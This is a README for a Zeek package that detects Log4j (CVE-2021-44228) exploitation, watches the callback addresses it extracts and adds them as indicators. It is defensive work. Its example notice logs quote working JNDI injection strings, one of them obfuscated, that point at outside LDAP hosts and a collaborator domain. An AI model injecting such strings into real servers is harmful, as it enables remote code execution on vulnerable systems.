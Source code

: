 =================================================================================
Simple policy to detect  CVE_2021_44228 aka Log4j
=================================================================================

Following functionality are provided by the script
--------------------------------------------------
::
        1) Log4j zeek package identifies CVE_2021_44228 exploitation attempts 
        2) extracts the callback IP + domain and watches  them
        3) builds realtime IoCs from these attacks and realtime adds to the intel-framework

Installation
------------
	zeek-pkg install zeek/initconf/log4j
	or
	@load log4j/scripts


Detailed Notes:
---------------

Detail Alerts and descriptions: Following alerts are generated by the script:
******************************************************************************
This should generate following Kinds of notices:

        - Log4j::Attempt
        - Log4j::CallBackIP
        -  Log4j::CallBack

Example notice: 
***************************

XXXXXXXXXX.XXXXXX       CmES5u32sYpV7JYN        45.131.195.245  18677   12.23.36.5    80      -       -       -       tcp     Log4j::Attempt       Malicious user agent Mozilla/5.0 ${jndi:ldap://45.58.177.50:1389/Rsc} seen from host 45.131.195.245     -       45.131.195.245 12.23.36.5    80      -       -       Notice::ACTION_LOG      (empty) 3600.000000     -       -       -       -       -     --

XXXXXXXXXX.XXXXXX       -       45.131.195.245  18677   12.23.36.5    80      -       -       -       tcp     Log4j::CallBackIP     Callback IP [45.58.177.50] seen from host 45.131.195.245 with payload of [[uri=45.58.177.50:1389/Rsc, uri_path=Rsc, stem=45.58.177.50:1389, host=45.58.177.50, port_=1389/tcp]] -       45.58.177.50    12.23.36.5    80      -       -       Notice::ACTION_LOG      (empty)86400.000000    -       -       -       -       -       -       -

XXXXXXXXXX.XXXXXX       CDI95K1GQpHhlE1WO3      192.168.86.35   64759   45.58.177.50    1389    -       -       -       tcp     Log4j::CallBack        Possible Successful Callback seen [45.58.177.50:1389/tcp] : attack connection [orig_h=45.131.195.245, orig_p=18677/tcp, resp_h=12.23.36.5, resp_p=80/tcp]    -       45.58.177.50    45.58.177.50    1389    -       -       Notice::ACTION_LOG      (empty)1800.000000


Complex regexps:

XXXXXXXXXX.XXXXXX       ClEkJM2Vm5giqnMf4h      149.209.6.114   45754   131.177.124.168 80      -       -       -       tcp     Log4j::Attempt       Malicious user agent ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://185.254.196.236:1389/jijec} seen from host 149.209.6.114   -       149.209.6.114   131.177.124.168 80      -       -       Notice::ACTION_LOG      (empty) 3600.000000

Embedded domains: 

XXXXXXXXXX.XXXXXX       CtPZjS20MLrsMUOJi2      14.36.22.37     34404   134.93.97.18    80      -       -       -       tcp     Log4j::Attempt        Malicious user agent Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@${jndi:ldap://User-Agent.blah.com.jg33feb5c7b2ui8djt4bb9dntez6nv.burpcollaborator.net/a.bc} seen from host 14.36.22.37    -       14.36.22.37     134.93.97.18    80      -       -       Notice::ACTION_LOG      (empty) 3600.000000

Also resolves the domain and watches for the IP/port:

XXXXXXXXXX.XXXXXX       -       14.36.22.37     34404   134.93.97.18    80      -       -       -       tcp     Log4j::CallBackIP       Callback IP [52.16.21.24] seen from host 14.36.22.37 with payload of [[uri=User-Agent.blah.com.jg33feb5c7b2ui8djt4bb9dntez6nv.burpcollaborator.net/a.bc, uri_path=a.bc, stem=User-Agent.blah.com.jg33feb5c7b2ui8djt4bb9dntez6nv.burpcollaborator.net, host=52.16.21.24, port_=80/tcp]]    -       52.16.21.24 134.93.97.18    80      -       -       Notice::ACTION_LOG      (empty) 86400.000000



Example Summary Notice: 
***************************



